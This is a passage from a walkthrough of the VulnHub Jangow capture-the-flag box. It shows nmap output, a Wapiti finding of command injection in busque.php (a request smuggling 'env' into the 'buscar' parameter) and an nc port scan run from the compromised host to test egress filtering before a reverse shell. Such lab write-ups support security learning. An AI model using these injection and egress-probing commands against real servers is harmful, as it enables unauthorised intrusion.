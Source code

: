 # VulnHub Jangow CTF walkthrough

You drag your coffin around
---------------------------

[Jangow](https://www.vulnhub.com/entry/jangow-101,754/) was a nice CTF. But maybe it was nice because I added several unnecessary steps to challenge myself even more.  

In this walkthrough I will show the different solutions I found to bypass an egress (but ingress too) rule.  

Let's go!  

```plain
Nmap scan report for 192.168.56.118
Host is up (0.00020s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
```

As you can see all ports are filtered except FTP and HTTP.  

The vsFTPd version is not known to be vulnerable. It isn't the backdoored version neither.  

On the web server the directory listing is enabled and there is only one folder called *site*.  

Let's launch [Wapiti](https://github.com/wapiti-scanner/wapiti) on it:  

```plain
[*] Lancement du module exec
---
Exécution de commande dans http://192.168.56.118/site/busque.php via une injection dans le paramètre buscar
Evil request:
    GET /site/busque.php?buscar=a%3Benv%3B HTTP/1.1
    Host: 192.168.56.118
---
```

There is a command injection vulnerability in this *busque.php* script.  

Maybe you should not say *injection* here because you can directly pass commands without any escape character.  

While trying to get a reverse shell it is obvious that some egress filtering is in place.  

Netcat is installed on the box so I can portscan my box with the following command launched from the web script :  

```bash
nc -zvn -w1 192.168.56.1 1-500
```
